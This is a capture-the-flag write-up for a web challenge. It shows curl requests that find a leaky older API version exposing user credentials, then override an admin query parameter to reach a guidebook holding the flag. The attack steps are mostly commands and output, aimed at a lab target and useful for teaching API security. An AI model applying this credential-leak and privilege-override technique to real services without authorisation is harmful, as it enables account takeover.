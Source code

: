 # Requesting Guidebook

**Challenge Category: Web** <br />
**Challenge Points: 500**

## Challenge Description

During your search for a way out, you encountered two interesting endpoints `https://guidebook.nypinfosec.com/api/v2/dev_guidebook` and `https://guidebook.nypinfosec.com/api/v2/users` Wouldn't a developers guidebook be useful to aid your escape?

`https://guidebook.nypinfosec.com/`

## Analysis

The endpoint `https://guidebook.nypinfosec.com/api/v2/users` seems particularly interesting.

### 1. HTTP Method

When we send a HTTP GET request to the endpoint, we get a "Method Not Allowed", informing that we have used the wrong HTTP Method.

```sh
$ curl -s https://guidebook.nypinfosec.com/api/v2/users | jq
```

```json
{
  "detail": "Method Not Allowed"
}
```

If we try running the same request using `POST`, we get past the previous error and get validation errors instead.

```sh
$ curl -s -X POST https://guidebook.nypinfosec.com/api/v2/users | jq
```

```json
{
  "detail": [
    {
      "type": "missing",
      "loc": ["query", "email"],
      "msg": "Field required",
      "input": null,
      "url": "https://errors.pydantic.dev/2.5/v/missing"
    },
    {
      "type": "missing",
      "loc": ["query", "passw"],
      "msg": "Field required",
      "input": null,
      "url": "https://errors.pydantic.dev/2.5/v/missing"
    }
  ]
}
```

### 2. Missing GET Parameters in POST Request

Odd enough, the API endpoint is requiring GET query parameters (`email`, `passw`) while requiring a `POST` method.

So, we supply some random values and have a look.

```sh
$ curl -s -X POST "https://guidebook.nypinfosec.com/api/v2/users?email=nyp&passw=ctf" | jq
```

```json
{
  "error": "User does not exist"
}
```

### 3. OWASP API Top 10 - API9:2023 Improper Inventory Management

Requiring GET paramters in a POST request is odd enough already. But there is a clue in the endpoint `/api/v2`.

What if we used the older version of the API?

```sh
$ curl -s -X POST "https://guidebook.nypinfosec.com/api/v1/users" | jq
```

```json
{
  "users": [
    {
      "admin": false,
      "email": "john@game.com",
      "username": "John",
      "password": "hfw9guw0gwa"
    },
    {
      "admin": false,
      "email": "timmy@game.com",
      "username": "Timmy",
      "password": "tim123"
    },
    {
      "admin": true,
      "email": "wilfred_dev@game.com",
      "username": "Wilfred"
    },
    {
      "admin": false,
      "email": "peter@game.com",
      "username": "Peter",
      "password": "spidermanlol2424"
    }
  ]
}
```

## Solution

1. We found out that the older version of the API is insecure, and leaked crucial account information.
2. We also found out that the flag might be hidden somewhere in the Guidebook as hinted in the challenge description.
3. Since we know the accounts available, let's access the Guidebook.

```sh
$ curl -s "https://guidebook.nypinfosec.com/api/v1/dev_guidebook" | jq
```

```json
{
  "detail": "Method Not Allowed"
}
```

4. Let's correct our request using POST method.

```sh
$ curl -s -X POST "https://guidebook.nypinfosec.com/api/v1/dev_guidebook" | jq
```

```json
{
  "detail": [
    {
      "type": "missing",
      "loc": ["query", "email"],
      "msg": "Field required",
      "input": null,
      "url": "https://errors.pydantic.dev/2.5/v/missing"
    },
    {
      "type": "missing",
      "loc": ["query", "passw"],
      "msg": "Field required",
      "input": null,
      "url": "https://errors.pydantic.dev/2.5/v/missing"
    },
    {
      "type": "missing",
      "loc": ["query", "admin"],
      "msg": "Field required",
      "input": null,
      "url": "https://errors.pydantic.dev/2.5/v/missing"
    }
  ]
}
```

5. Let's try to supply the `email`, `passw`, and override the `admin` property from the accounts we found earlier.

```sh
$ curl -s -X POST "https://guidebook.nypinfosec.com/api/v1/dev_guidebook?email=john@game.com&passw=hfw9guw0gwa&admin=true" | jq
```

```json
{
  "Title": "The Developers Guide",
  "Author": "Wilfred",
  "Contents": " \n    The Developer's Guide to Crafting Engaging Games\n    Creating a captivating game requires a blend of creativity, technical prowess, and a deep understanding of user experience. As a developer, your role is pivotal in shaping the player's journey. This guidebook aims to provide a comprehensive roadmap to assist developers in crafting immersive and compelling games.\n\n    1. Conceptualization and Planning\n    Before diving into coding, establish a strong foundation:\n\n    Define the Vision:\n    Conceptualize: Brainstorm unique gameplay mechanics, storyline, characters, and aesthetics.\n    Target Audience: Understand your audience's preferences, demographics, and gaming habits.\n    Game Design Document (GDD):\n    Blueprint: Create a detailed GDD outlining game mechanics, levels, assets required, and user interface design.\n    Iteration: Be open to revisions and improvements as the development progresses.\n    2. Development Cycle\n    Prototyping:\n    Proof of Concept: Build a prototype to test core mechanics and gather feedback early.\n    Iterative Process: Refine and iterate based on playtesters' experiences.\n    Technology and Tools:\n    Choosing Frameworks: Select appropriate engines (Unity, Unreal Engine, etc.) or frameworks based on project needs.\n    Version Control: Use tools like Git for efficient collaboration and version control.\n    Coding Best Practices:\n    Modularity: Write clean, modular code for scalability and easy maintenance.\n    Optimization: Ensure efficient resource usage for smooth gameplay across various devices.\n    3. Art and Assets\n    Art Style and Direction:\n    Consistency: Maintain a cohesive art style throughout the game.\n    Visual Storytelling: Use visuals to convey emotions, plot points, and gameplay elements.\n    Asset Creation:\n    Quality vs. Performance: Balance asset quality and performance to optimize game performance.\n    Collaboration: Coordinate with artists for timely asset deliveries and revisions.\n    4. User Experience (UX) and Interface Design\n    Player-Centric Approach:\n    Intuitive Controls: Design user-friendly controls for seamless gameplay.\n    Accessibility: Ensure the game accommodates players with different abilities.\n    UI/UX Design:\n    Clarity: Create clear and intuitive interfaces for navigation, menus, and HUD elements.\n    Feedback: Provide responsive feedback to player actions for a more engaging experience.\n    5. Testing and QA\n    Playtesting:\n    Diverse Testers: Engage a diverse group of playtesters to gather varied perspectives.\n    Feedback Implementation: Actively incorporate constructive feedback to enhance the gaming experience.\n    Quality Assurance (QA):\n    Bug Fixing: Conduct rigorous testing to identify and fix bugs across different platforms.\n    Performance Testing: Ensure the game performs optimally under various conditions.\n    6. Launch and Post-Launch Strategies\n    Marketing and Promotion:\n    Pre-launch Campaigns: Build anticipation through teasers, trailers, and demos.\n    Community Engagement: Foster a community around the game through social media and forums.\n    Post-Launch Support:\n    Updates and Patches: Respond to player feedback with timely updates and bug fixes.\n    DLCs and Expansions: Plan additional content to maintain player interest post-launch.\n    7. Monetization and Business Models\n    Monetization Strategies:\n    In-App Purchases: Offer optional purchases for cosmetics, boosts, or additional content.\n    Ads and Sponsorships: Strategically implement non-intrusive ads or collaborate with sponsors.\n    Business Models:\n    Freemium vs. Premium: Decide between free-to-play with in-app purchases or a one-time purchase model.\n    Subscription Services: Consider subscription-based models for continuous revenue.\n    8. Escape\n    NYP{1n53cURE_AP1_H4Ck1nG_4_r00k1es}\n    9. Community Engagement and Feedback Loop\n    Community Building:\n    Engage with Players: Interact with the gaming community through social media, forums, and live streams.\n    Listen and Respond: Actively listen to player feedback and address concerns transparently.\n    Continuous Improvement:\n    Iterative Development: Implement improvements and new features based on community input.\n    Building Loyalty: Foster a loyal player base through regular communication and appreciation.\n    Conclusion\n    Crafting a successful game requires a blend of technical expertise, creativity, and a deep understanding of player preferences. By following a structured approach from conceptualization to post-launch support and maintaining a strong connection with the gaming community, developers can create engaging and memorable gaming experiences.\n\n    Remember, each step in the development process contributes significantly to the final product. Embrace challenges, adapt to feedback, and strive for continuous improvement to create games that resonate with players across the globe.\n    "
}
```

6. The flag is hiding here somewhere. Let's filter the output.

```sh
$ curl -s -X POST "https://guidebook.nypinfosec.com/api/v1/dev_guidebook?email=john@game.com&passw=hfw9guw0gwa&admin=true" | jq | grep -o "NYP{.*}"
```

```
NYP{1n53cURE_AP1_H4Ck1nG_4_r00k1es}
```
